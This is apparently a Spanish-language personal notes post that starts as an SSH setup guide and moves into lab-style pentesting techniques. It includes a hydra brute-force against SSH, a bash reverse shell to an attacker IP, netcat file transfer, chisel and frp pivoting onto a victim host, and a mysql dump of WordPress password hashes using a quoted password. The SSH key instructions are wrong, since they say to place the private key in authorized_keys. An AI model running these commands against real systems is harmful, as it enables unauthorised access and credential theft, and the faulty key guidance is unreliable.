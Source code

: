 ```yaml
---
layout: post
author: Sergio Salgado
---
```


# [](#header-1)Como establecer una conexion remota SSH?

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#about_ssh">Que es SSH?</a>
- <a href="#instalacion">Instalacion</a>
- <a href="#configuracion">Configuracion</a>
- <a href="#conexion">Establecer conexion</a>
- <a href="#conclusiones">Conclusiones</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
Es incomodo utilizar la terminal desde algunos dispositivos, o simplemente la interfaz no es como a la que estamos acostumbrados. En este post mostrare como configurar correctamente el servicio de SSH para poder establecer una conexion remota desde otro dispositivo.


## [](#header-2)<a id="about_ssh">Que es SSH?</a>


## [](#header-2)<a id="about_ssh">Instalacion</a>


Para dispositivos con sistema operativo basado en debian


```S
#Actualizacion de sistema
sudo apt update && upgrade
#Instalacion de openssh
apt install openssh
#Para loggearte en una maquina con ssh en ejecusion donde el puerto por default es (22):
ssh user@hostname_or_ip
```

Para dispositivos <a id="andorid">android</a>

```S
pkg upgrade
pkg install openssh
```

## [](#header-2)<a id="about_ssh">Configuracion</a>

Por default la contrasena esta establecida, por lo que ingresaremos a verla con
PrintMotd yes
PasswordAuthentication yes
Subsystem sftp /data/data/com.termux/files/usr/libexec/sftp-server

Para establecer una nueva contrasena


```S
$ passwd
New password:
Retype new password:
New password was successfully set.

```

## [](#header-2)<a id="conexion">Establecer conexion</a>
Para saber el usuario de la maquina donde nos conectaremos

```S
$ whoami
```


```S
#Para usar un puerto en especifico
ssh -p 8022 user@hostname_or_ip
```

Tambien es posible crear en la maquina servifor un archivo dentro de /.ssh/ que se llame authorized_keys, jabra que copiarle la llave privada y asignarle el codigo de permisos 600. La llave se copia dentro de algun directorio de la maquina que se conectara con el nombre de id_rsa y se le pasara el siguiente comando:

```s
#Para uso de llave privada y publica
ssh -i id_rsa user@hostname_or_ip
```

Si hemos olvidado la contrasena e intentamos hacer un bruteforce al servicio de ssh mediante wordlist, podemos usar hydra de la manera siguiente:

```s
hydra -s 22 ssh://192.168.0.100 -L users -P wordlist
```

## [](#header-2)<a id="conclusiones">Conclusiones</a>
Es necesario utilizar muchos dispositivos para alguien que se dedica a la tecnologia, por lo que lo mas practico seria utilizar solo una maquina para poder comunicarnos entre los dispositivos y poder configurarlos.


# [](#header-1)Como hacer una reverse shell?
El comando siguiente hara una peticion de conexion para la ip y puerto asignado:

 ```bash
 #Para ejecutar del lado de la victima
bash -i >& /dev/tcp/10.10.14.22/443 0>&1
```

Ahora solo hara falta ponerse en escucha con netcat y para que funcione mejor la consola suelo usar tambien el rlwrap 

```s
rlwrap nc -nlvp 443
```

## [](#header-2)<a id="tratamiento tty">Tratamiento para la tty </a>

Para hacer una shell iteractiva:

```s
script /dev/null -c bash
```

Ctrl+Z

```s
stty raw -echo; fg
#ENTER
reset xterm

export TERM=xterm
export SHELL=bash
```

Para las filas

```s
#Consulta de tamano
stty size
45  174
#Para definir
stty rows 45 columns 174
```

# [](#header-1)Envio de datos mediante netcat

```s
#Maquina que envia
nc 10.10.14.22 443 < file_encrypt
#Maquina que recibe
nc -nlvp 4444 > file
```

# [](#header-1)Proxis
frp
Primero iniciamos en la maquina atacante el servidor, en esta ocasion usaremos la configuracion de default
nohup ./frps -p 7000 &

Despues hacemos cambios en el archivo frpc.ini, cambiando la IP del servidor a la del atacante. Los descargamos a la maquina victima y ejecutamos
chmod +x frpc
nohup ./frpc -c frpc_1.ini &

Chisel
Vamos a usar una herramienta llamada <a href="https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz">chisel</a> para hacer el port forwarding con el contenedor que tenemos enfrente y esta permitido para usarlo en el OSCP.

Asi que lo primero seria descomprimirlo, luego quitarle peso con upx y abrir nuestro servidor http con python para descargarlo del otro lado. 

Y al final desde el contenedor ejecutamos:

```s
curl http://10.10.14.29/chisel_1.7.7_linux_amd64 > chisel
#Le damos permisos
chmod +x chisel

./chisel client 10.10.14.29:1234 R:socks
```

Del lado de la atacante

```s
./chisel server --reverse -p 1234
```

Una vez establecida la comunicacion, hacemos una modificacion en el archivo /etc/proxychains.conf
Agregamos la siguiente linea:

```s
socks5 127.0.0.1 1080
```

Y ahora configuramos el foxyproxy con socks5, puerto 127.0.0.1 y puerto 1080 para poder llegar a estas maquinas desde el navegador.

![104](/assets/images/Toby/104_access.png)

Tambien podemos intentar romper el cifrado de las contrasenas de la DB que teniamos.

Accedemos a la base de datos con:

```SQL
proxychains mysql -uroot -pOnlyTheBestSecretsGoInShellScripts -h 172.69.0.102

show databases;

show tables;

describe wp_users;

select user_login,user_pass from wp_users;
```
